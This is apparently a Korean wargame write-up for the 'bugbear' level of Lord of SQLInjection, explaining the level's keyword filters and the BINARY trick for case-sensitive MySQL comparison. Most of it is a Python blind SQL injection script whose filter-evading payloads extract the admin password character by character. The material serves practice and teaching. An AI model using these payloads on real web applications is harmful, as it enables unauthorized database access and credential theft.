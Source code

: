 ```yaml
---
title: "Lord of SQLInjection - BUGBEAR"
categories: 
  - SQLi
tags:
  - SQLi
  - 웹해킹
toc: true
---
```


# BUGBEAR
## 문제 
![img](/assets/images/los/bugbear1.png)

- 따옴표('), substr, ascii, =, or, and, 공백(' '), like, hex(0x)를 필터링 한다.

## 정답
![img](/assets/images/los/bugbear2.png)

> mysql에서 mid(), substr()등의 함수로 string을 자른 후 비교시 대소문자를 구별하지 못한다. 이럴땐 구별할 문자 앞에 BINARY를 붙여주면 대소문자를 구별할 수 있다. 아래 코드의 두번째 쿼리에 적용되어 있다.

![img](/assets/images/los/bugbear3.png)

```python
import requests

password = ''

url = "https://los.rubiya.kr/chall/bugbear_19ebf8c8106a5323825b5dfa1b07ac1f.php"

cookie = {'PHPSESSID' : 'PHP 세션 아이디'}

pass_len = 0

for length in range(1,30):
    query = "?pw=1&no=0/**/||/**/id/**/in/**/(char(97,100,109,105,110))/**/%%26%%26/**/%d/**/in/**/(length(pw))" %length
    URL = url+query

    r = requests.get(url=URL, cookies=cookie)

    if 'Hello admin' in str(r.content):
        pass_len = length
        break

    else:
        print(str(length) + "--- X")
		

print("password length : %d" %pass_len)
password=''

for i in range(1, pass_len+1):
    for j in range(38, 127):
        query = "?pw=1&no=0/**/||/**/id/**/in/**/(char(97,100,109,105,110))/**/%%26%%26/**/BINARY/**/mid(pw,%d,1)/**/in/**/(char(%d))" %(i, j)
        URL = url+query
        r = requests.get(url=URL, cookies=cookie)
        
        if 'Hello admin' in str(r.content):
            password += chr(j)
            break

print ('passowrd :  %s' %password)
```